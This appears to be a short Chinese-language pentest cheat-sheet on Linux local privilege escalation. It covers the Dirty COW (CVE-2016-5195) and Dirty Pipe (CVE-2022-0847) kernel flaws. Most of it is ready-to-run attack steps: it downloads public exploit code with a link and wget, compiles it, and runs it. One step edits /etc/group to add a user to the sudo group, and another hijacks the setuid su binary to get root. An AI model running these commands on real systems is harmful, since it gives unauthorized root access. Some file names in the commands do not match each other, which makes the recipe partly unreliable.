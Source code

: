 <img src=".\图片\Snipaste_2023-02-14_15-11-50.png" alt="Snipaste_2023-02-14_15-11-50" style="zoom:80%;" />

### 脏牛提权 

CVE-2016-5195

该漏洞是 Linux 内核的内存子系统在处理写时拷贝（Copy-on-Write）时存在条件竞争漏洞， 导致可以 破坏私有只读内存映射。黑客可以在获取低权限的的本地用户后，利用此漏洞获取 其他只读内存映射的 写权限，进一步获取 root 权限

**利用方式一：**

exp下载 https://github.com/Brucetg/DirtyCow-EXP

```
gcc -pthread dirtyc0w.c -o dirtyc0w
chmod +x dirtycow
./dirtycow /etc/group "$(sed '/\(sudo*\)/ s/$/,moonteam/' /etc/group)"
```

**利用方式二：**

```
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow dcow.cpp -lutil
```

```
./dcow
su root
```

### Dirty Pipe(CVE-2022-0847)

5.8<=Linux kernel<5.16.11/5.15.25/5.10.102
wget https://haxx.in/files/dirtpipez.c

```
gcc -o dirtypipez dirtypipez.c
./dirtypipez /usr/bin/su  #任何具体suid权限的文件均可
id
```

## SUID提权

